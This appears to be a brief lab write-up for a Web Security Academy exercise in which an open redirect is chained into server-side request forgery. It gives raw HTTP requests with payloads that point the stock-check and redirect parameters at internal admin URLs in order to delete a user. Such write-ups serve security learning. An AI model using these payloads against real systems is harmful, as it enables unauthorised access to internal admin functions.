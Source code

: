 <h2>SSRF + Open Redirect</h2>

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

**Another example**

![image](https://github.com/user-attachments/assets/2d1408fe-c72d-409d-b0c3-91b91c925179)

So we kno wthis request is vulnerable to open redirect vuln.

```
POST /product/nextProduct HTTP/2
Host: 0a0b00b904224216812f02e000c200fb.web-security-academy.net
Cookie: session=QvN0T7haiiqeA23Dj469LB2JguLKpox9; session=P4WEAbjdRZvaq0hOL51o9GLtuFabAyNd
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0b00b904224216812f02e000c200fb.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

currentProductId=1&path=http://192.168.0.12:8080/admin
```

So we use this API endpoint in StoredAPI to interact with the above function

![image](https://github.com/user-attachments/assets/03beb472-a90b-4393-bb38-6fa417089b22)

Results

![image](https://github.com/user-attachments/assets/9c8261b9-1c91-458c-b191-13ff12dbba94)

Next we click delete Carlos user to obtain delete API request

![image](https://github.com/user-attachments/assets/d3365674-00f5-4502-812f-444ecf140305)
